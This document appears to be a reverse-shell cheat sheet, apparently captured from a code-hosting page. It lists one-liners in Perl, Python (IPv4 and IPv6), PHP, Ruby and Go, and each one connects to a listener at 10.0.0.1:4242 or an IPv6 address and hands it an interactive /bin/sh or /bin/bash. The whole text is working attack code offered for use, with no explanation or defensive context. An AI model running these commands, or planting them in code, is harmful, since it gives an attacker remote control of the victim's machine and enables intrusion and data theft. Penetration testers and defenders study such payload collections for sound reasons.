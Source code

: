 **perl**
```perl
perl -e 'use Socket;$i="10.0.0.1";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

**python**
- IPv4
    ```python
    export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
    ```

    ```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
    ```

- IPv6
    ```python
    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
    ```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**php**
```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

**ruby**
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**Golang**
```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```
